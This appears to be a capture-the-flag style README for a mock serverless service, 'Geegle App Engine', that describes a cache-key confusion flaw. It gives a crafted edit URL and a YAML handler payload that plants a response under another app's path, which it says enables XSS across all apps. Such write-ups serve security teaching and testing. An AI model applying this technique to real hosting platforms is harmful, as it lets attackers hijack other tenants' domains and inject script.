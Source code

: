 # gae (Geegle App Engine)

Like Amazon Lambda.

**Feel free to write other services using this infra**

## Vulnerability

Could deploy functions to any domains due to wrong caching rules.

**Normal User**
Domain: example
Path: helloworld

Cache Key: example.apps.geegle.org/helloworld

**Hacker**
Domain: example.apps.geegle.org/haha
Path: lmao

Cache Key: example.apps.geegle.org/haha.apps.geegle.org/lmao

**This would make XSS possible on all GAE apps**

## Payload

Visit http://manage.apps.geegle.org:8056/edit?app=test1.apps.geegle.org:8056/haha

```
---
urls:
  "/test": |-
    gae_rsp = gaeutils.make_response("hacked")
default_handler: |-
  gae_rsp = gaeutils.errorpage("The requested URL %s was not found on this server." % request.path, code=404)
```

http://test1.apps.geegle.org:8056/haha.apps.geegle.org:8056/test becomes hacked
